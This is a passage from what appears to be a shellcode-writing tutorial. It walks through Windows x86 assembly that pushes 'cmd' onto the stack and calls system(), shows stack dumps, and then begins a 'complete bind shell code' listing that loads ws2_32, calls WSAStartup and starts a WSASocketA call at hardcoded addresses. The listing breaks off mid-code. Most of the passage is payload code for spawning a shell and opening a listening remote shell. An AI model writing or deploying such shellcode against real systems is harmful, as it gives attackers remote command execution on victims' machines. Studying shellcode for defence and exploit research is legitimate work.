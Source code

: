 `lea esp, [esp-0x4]` adjusts ESP, or else data will be overwritten when we push more values on the stack.

```perl
           Addr        Value      Ascii
           0022FE1C    41FFFFF4   "...A"
ESP/EAX -> 0022FE20    00646D63   "cmd\0"
           0022FE24    5C110002
           0022FE28    00000000
```text

`push eax` pushes the address of the "cmd\0" string on the stack and overwrites the previous trash there.
```perl
       Addr        Value      Ascii
ESP -> 0022FE1C    0022FE20   
EAX -> 0022FE20    00646D63   "cmd\0"
       0022FE24    5C110002
       0022FE28    00000000
```

Below is an alternative version of system(), which saves some bytes using EBP instead of ESP.
We save space because we don't need to update the value of EBP, like we did to ESP in the previous example.
The reason I use ESP instead is that EBP might get overwritten by the exploit.

```nasm
mov DWORD [ebp-0x5], 0x646d6341
lea eax, [ebp-0x4]
push eax
mov eax, 0x77c293c7
call eax
```


### The complete bind shell code

```nasm
[BITS 32]

global _start

section .text

_start:

; LoadLibraryA(_In_ LPCTSTR lpFileName)
xor eax, eax
mov ax, 0x3233
push eax            ; Push 0x00003233 (ASCII 32\0)
push 0x5f327377     ; Push 0x5f327377 (ASCII ws2_)
mov ebx, esp        ; Store pointer to "ws2_32" in ebx
push ebx            ; Arg lpFileName = ebx -> "ws2_32"
mov eax, 0x7c801d7b
call eax

; WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
add esp, 0xFFFFFE70 ; Creating space on stack (400 bytes)
push esp            ; Arg lpWSAData = top of stack
push 0x101          ; Arg wVersionRequired = 1.1
mov eax, 0x71ab6a55
call eax

; WSASocketA(int af, int type, int protocol, 
;            LPWSAPROTOCOL_INFOA lpProtocolInfo, 
;            GROUP g, DWORD dwFlags)
xor eax, eax
```